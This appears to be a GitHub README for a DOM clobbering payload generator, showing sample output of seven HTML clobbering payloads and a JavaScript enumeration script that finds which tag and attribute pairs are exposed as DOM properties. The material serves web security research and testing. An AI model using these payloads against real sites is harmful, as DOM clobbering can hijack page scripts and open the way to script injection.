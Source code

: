 # DOM Clobbering Generator

Full article on [OffensiveWeb](https://www.offensiveweb.com/docs/topics/dom-clobbering/).

## Usage

```bash
$ python3 generator.py video.lang 'Hello!'
********************* INFO **********************
ALLOWED_ELEMENTS = ['a', 'form', 'input', 'iframe']
variable_name = 'video.lang'
variable_value = 'Hello!'
depth = 2
document_scope = False
chrome_required = True
******************** PAYLOAD #1 ********************
<a id="video" lang="Hello!"></a>
******************** PAYLOAD #2 ********************
<form id="video" lang="Hello!"></form>
******************** PAYLOAD #3 ********************
<form name="video" lang="Hello!"></form>
******************** PAYLOAD #4 ********************
<input id="video" lang="Hello!"></input>
******************** PAYLOAD #5 ********************
<iframe id="video" lang="Hello!"></iframe>
******************** PAYLOAD #6 ********************
<iframe name="video" lang="Hello!"></iframe>
******************** PAYLOAD #7 ********************
<a id="video"></a><a id="video" name="lang" href="a:Hello!"></a>
```

## attributes.json 

```js
const tags = ["a", "abbr", "acronym", "address", "applet", "area", "article", "aside", "audio", "b", "base", "bdi", "bdo", "bgsound", "big", "blink", "blockquote", "body", "br", "button", "canvas", "caption", "center", "cite", "code", "col", "colgroup", "data", "datalist", "dd", "del", "details", "dfn", "dialog", "dir", "div", "dl", "dt", "em", "embed", "fieldset", "figcaption", "figure", "font", "footer", "form", "frame", "frameset", "h1", "head", "header", "hgroup", "hr", "html", "i", "iframe", "image", "img", "input", "ins", "kbd", "keygen", "label", "legend", "li", "link", "main", "map", "mark", "marquee", "menu", "menuitem", "meta", "meter", "nav", "nobr", "noembed", "noframes", "noscript", "object", "ol", "optgroup", "option", "output", "p", "param", "picture", "plaintext", "portal", "pre", "progress", "q", "rb", "rp", "rt", "rtc", "ruby", "s", "samp", "script", "section", "select", "slot", "small", "source", "spacer", "span", "strike", "strong", "style", "sub", "summary", "sup", "table", "tbody", "td", "template", "textarea", "tfoot", "th", "thead", "time", "title", "tr", "track", "tt", "u", "ul", "var", "video", "wbr", "xmp"];
const attributes = ["accept", "accept-charset", "accesskey", "action", "align", "allow", "alt", "async", "autocapitalize", "autocomplete", "autofocus", "autoplay", "background", "bgcolor", "border", "buffered", "capture", "challenge", "charset", "checked", "cite", "class", "code", "codebase", "color", "cols", "colspan", "content", "contenteditable", "contextmenu", "controls", "coords", "crossorigin", "csp", "data", "data-*", "datetime", "decoding", "default", "defer", "dir", "dirname", "disabled", "download", "draggable", "enctype", "enterkeyhint", "for", "form", "formaction", "formenctype", "formmethod", "formnovalidate", "formtarget", "headers", "height", "hidden", "high", "href", "hreflang", "http-equiv", "id", "integrity", "intrinsicsize", "inputmode", "ismap", "itemprop", "keytype", "kind", "label", "lang", "language", "loading", "list", "loop", "low", "manifest", "max", "maxlength", "minlength", "media", "method", "min", "multiple", "muted", "name", "novalidate", "open", "optimum", "pattern", "ping", "placeholder", "playsinline", "poster", "preload", "readonly", "referrerpolicy", "rel", "required", "reversed", "role", "rows", "rowspan", "sandbox", "scope", "scoped", "selected", "shape", "size", "sizes", "slot", "span", "spellcheck", "src", "srcdoc", "srclang", "srcset", "start", "step", "style", "summary", "tabindex", "target", "title", "translate", "type", "usemap", "value", "width", "wrap"];

let valids = {};
tags.forEach(tag => {
  attributes.forEach(attribute => {
		if (attribute != "id" && attribute != "name") {
			document.body.innerHTML = `<${tag} id="xyz" ${attribute}="xanhacks"></${tag}>`;
			try {
				if (eval(`xyz.${attribute} == "xanhacks"`)) {
					if (!valids.hasOwnProperty(tag)) {
						valids[tag] = [];
					}
					valids[tag].push(attribute);
				}
			} catch (e) {}
		}
	});
});
console.log(valids);
```

## References

- [PortSwigger - DOM clobbering](https://portswigger.net/web-security/dom-based/dom-clobbering)
- JavaScript for hackers - Gareth Heyes (book)
- [OWASP CS - DOM Clobbering](https://cheatsheetseries.owasp.org/cheatsheets/DOM_Clobbering_Prevention_Cheat_Sheet.html)
- [DOM Clobbering - Frederik Braun](https://www.htmhell.dev/adventcalendar/2022/12/)
- [WHATWG - Named access on the Window object](https://html.spec.whatwg.org/multipage/nav-history-apis.html#named-access-on-the-window-object)
- [It’s (DOM) Clobbering Time: Attack Techniques, Prevalence, and Defenses](https://scnps.co/papers/sp23_domclob.pdf)
